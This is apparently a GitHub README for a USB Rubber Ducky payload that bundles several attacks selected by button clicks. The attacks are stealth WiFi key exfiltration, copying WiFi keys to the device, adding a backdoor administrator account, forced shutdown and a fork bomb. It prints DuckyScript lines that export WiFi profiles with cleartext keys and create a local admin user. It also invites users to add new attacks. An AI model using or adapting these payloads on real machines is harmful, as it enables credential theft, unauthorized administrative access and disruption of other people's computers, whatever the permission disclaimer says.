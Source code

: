 # One Duck to Quack Them All
### Multiple attacks in a single payload chosen by click of a button
**Warnings:**
- Use only for demonstration, education, and / or testing on computers on which you have permission to test
- Test fully to ensure the payloads work as you intend

#### Summary
The ODTQTA payload lets you carry multiple attack on your Rubber Ducky without having to switchout SD cards. Once the rubber ducky is inserted into the target, click the button once to start the selection process. A payload will start in 5 seconds of selection, and each click resets the timer. To ensure you have the right payload, the LEDs reflect the current attack. 

Attacks include:
- *Click 1*: LED G slow blink - Stealth exfil WiFi key (modified from original Hak5 payload)
- *Click 2*: LED R slow blink - Direct USB copy of WiFi keys
- *Click 3*: LED G fast blink - Add backdoor user
- *Click 4*: LED R fast blink - Shutdown PC immediately
- *Click 5*: LED R/G alternate - Fork bomb (really resource bomb)
- *Click 6*: LED G morse A - USB storage

### Payload processing
- For attacks 1 - 3, once complete the LED will show green. Press the button to restart the Rubber Duck and potentially launch another attack
- When in USB storage, you can restart the Rubber Ducky for a new attack by pressing the button

#### Configuration
1) Replace DUCKY with the name of your rubber ducky:
```
FUNCTION DIRECT_STEAL_WIFI()
  ...
  STRINGLN $d=(Get-Volume -FileSystemLabel 'DUCKY').DriveLetter+':'; cd $d; netsh wlan export profile key=clear 
  ...
END_FUNCTION
```

2) Provide your own unique ID and password below:
```
FUNCTION CREATE_BACKDOOR()
  ...
  STRINGLN net user /add newuser newpass
  DELAY 500
  STRINGLN net localgroup administrators newuser /add

END_FUNCTION
```

3) Adjust timing for your target PCs. I tested this on two Windows 10 PCs and one was super pokey

#### Modification
The payload may be used as a template, either to alter the existing attacks or adding new attacks with new LED patterns. Best practice is to add new functions for each attack and call in the final IF/THEN statement.

*This program is free software: you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.*

*This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.See the GNU General Public License for more details.*

*You should have received a copy of the GNU General Public License along with this program.If not, see http://www.gnu.org/licenses/*
